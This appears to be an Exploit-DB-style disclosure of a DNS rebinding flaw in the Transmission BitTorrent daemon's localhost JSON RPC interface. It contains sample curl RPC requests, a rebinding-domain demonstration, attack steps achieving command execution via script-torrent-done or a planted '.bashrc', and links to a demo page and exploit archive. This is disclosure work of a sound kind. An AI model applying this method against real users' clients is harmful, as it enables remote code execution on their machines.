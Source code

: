 The transmission bittorrent client uses a client/server architecture, the user interface is the client and a daemon runs in the background managing the downloading, seeding, etc.

Clients interact with the daemon using JSON RPC requests to a web server listening on port 9091. By default, the daemon will only accept requests from localhost.

A sample RPC session looks like this:

```
$ curl -H 'X-Transmission-Session-Id: foo'  -sI '{}' http://localhost:9091/transmission/rpc
HTTP/1.1 409 Conflict
Server: Transmission
X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H
Date: Wed, 29 Nov 2017 21:37:41 GMT
```

```
$ curl -H 'X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H'  -d '{"method":"session-set","arguments":{"download-dir":"/home/user"}}' -si http://localhost:9091/transmission/rpc
HTTP/1.1 200 OK
Server: Transmission
Content-Type: application/json; charset=UTF-8
Date: Wed, 29 Nov 2017 21:38:57 GMT
Content-Length: 36

{"arguments":{},"result":"success"}
```

As with all HTTP RPC schemes like this, any website can send requests to the daemon with XMLHttpRequest, but the theory is they will be ignored because requests must read and request a specific header, X-Transmission-Session-Id. Unfortunately, this design doesn't work because of an attack called "dns rebinding". Any website can simply create a dns name that they are authorized to communicate with, and then make it resolve to localhost.

The attack works like this:

1. A user visits http://attacker.com.
2. attacker.com has an <iframe> to attack.attacker.com, and have configured their DNS server to respond alternately with 127.0.0.1 and 123.123.123.123 (an address they control) with a very low TTL.
3. When the browser resolves to 123.123.123.123, they serve HTML that waits for the DNS entry to expire, then they XMLHttpRequest to attack.attacker.com and have permission to read and set headers.

You can test this attack like this, I have a domain I use for testing called rbndr.us, you can use this page to generate hostnames:

https://lock.cmpxchg8b.com/rebinder.html

Here I want to alternate between 127.0.0.1 and 199.241.29.227, so I use 7f000001.c7f11de3.rbndr.us:

```
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 199.241.29.227
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
```

Here you can see the resolution alternates between the two addresses I want (note that depending on caching it might take a while to switch, the TTL is set to minimum but some servers round up).

I just wait for the cached response to expire, and then POST commands to the server.

Exploitation is simple, you could set script-torrent-done-enabled and run any command, or set download-dir to /home/user/ and then upload a torrent for ".bashrc".

Here is my (simple) demo:

http://lock.cmpxchg8b.com/Asoquu3e.html

See screenshots for how it's supposed to work, I've only tested it on fedora with `yum install transmission-daemon` and all default settings, but this should work on any platform that transmission supports.

EDB Note ~ https://bugs.chromium.org/p/project-zero/issues/detail?id=1447
EDB Note ~ https://github.com/transmission/transmission/pull/468
EDB Note ~ https://github.com/taviso/rbndr/tree/a189ffd9447ba78aa2702c5649d853b6fb612e3b

Download: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/43665.zip